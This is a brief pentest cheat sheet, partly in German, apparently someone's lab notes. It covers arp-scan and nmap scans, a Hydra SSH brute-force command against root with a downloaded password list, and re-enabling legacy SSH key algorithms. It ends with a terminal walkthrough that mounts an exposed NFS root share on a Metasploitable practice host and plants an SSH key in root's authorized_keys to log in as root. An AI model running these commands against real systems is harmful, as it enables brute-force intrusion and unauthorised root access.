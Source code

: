 # Scans

### Adress-Scan im lokalen Netzwerk
$> arp-scan --interface=eth0 --localnet

### PortScan
$> nmap -p0-65535 192.168.x.x

### Hydra mit PasswordLists

hydra -l root -V -e nsr -t 4 -P top-10000.txt 192.168.x.x ssh

# Sonstiges

### Getting a list of most commen passwords
wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/xato-net-10-million-passwords-10000.txt

### veraltete Signatur-Algorithmen akzeptieren
vi /etc/ssh/ssh_config
HostKeyAlgorithms +ssh-rsa,ssh-dss

### rlogin

TCP ports 512, 513, and 514 are known as "r" services, and have been misconfigured to allow remote access from any host (a standard ".rhosts + +" situation)

### NFS
NFS can be identified by probing port 2049 directly or asking the portmapper for a list of services.
**rpcinfo -p** to identify NFS and **showmount -e** to determine that the "/" share (the root of the file system) 

root@ubuntu:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
                       
root@ubuntu:~# mkdir /tmp/r00t
root@ubuntu:~# mount -t nfs 192.168.99.131:/ /tmp/r00t/
root@ubuntu:~# cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys
root@ubuntu:~# umount /tmp/r00t
                       
root@ubuntu:~# ssh root@192.168.99.131
Last login: Fri Jun  1 00:29:33 2012 from 192.168.99.128
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
                       
root@metasploitable:~#

